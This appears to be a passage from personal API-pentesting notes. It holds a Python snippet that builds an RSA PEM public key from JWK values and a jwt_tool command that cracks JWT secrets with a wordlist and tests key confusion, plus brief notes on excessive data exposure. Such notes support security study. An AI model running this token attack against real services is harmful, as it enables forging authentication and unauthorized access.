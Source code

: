 e = "AQAB"

n = "sZKrGYja9S7BkO-waOcupoGY6BQjixJkg1Uitt278NbiCSnBRw5_cmfuWFFFPgRxabBZBJwJAujnQrlgTLXnRRItM9SRO884cEXn-s4Uc8qwk6pev63qb8no6aCVY0dFpthEGtOP-3KIJ2kx2i5HNzm8d7fG3ZswZrttDVbSSTy8UjPTOr4xVw1Yyh_GzGK9i_RYBWHftDsVfKrHcgGn1F_T6W0cgcnh4KFmbyOQ7dUy8Uc6Gu8JHeHJVt2vGcn50EDtUy2YN-UnZPjCSC7vYOfd5teUR_Bf4jg8GN6UnLbr_Et8HUnz9RFBLkPIf0NiY6iRjp9ooSDkml2OGql3ww"

  

# Decode the exponent and modulus from base64

e_bytes = int.from_bytes(base64.urlsafe_b64decode(e + "=="), "big")

n_bytes = int.from_bytes(base64.urlsafe_b64decode(n + "=="), "big")

  

# Create the public key

public_key = rsa.RSAPublicNumbers(e_bytes, n_bytes).public_key(default_backend())

  

# Convert to PEM format

pem = public_key.public_bytes(

encoding=serialization.Encoding.PEM,

format=serialization.PublicFormat.SubjectPublicKeyInfo

)

  

# Save to a PEM file

with open("public_key.pem", "wb") as pem_file:

pem_file.write(pem)

  

print("Public key saved to public_key.pem")
```

	
```
	sudo python3 jwt_tool.py <token> -C -d /usr/share/seclists/Passwords/scraped-JWT-secrets.txt -V -pk public_key.pem    
```
### Coments section (excesive data exposure)
- Intercept a comment as ti's intended
	![[Pasted image 20241029194155.png]]
- After sending also another request get caught in the red, an exesive data exposure, [[Information-disclosure]]
	![[Pasted image 20241029194829.png]]
### improper assets management
https://medium.com/@bajajfinservhealth_/harnessing-the-power-of-fuzz-testing-with-postman-for-robust-api-testing-3498cb1b1b82

## More comprehensive scans. More vulnerabilities identified. More time saved. Enhance your API scanning with Burp Suite.

  

```
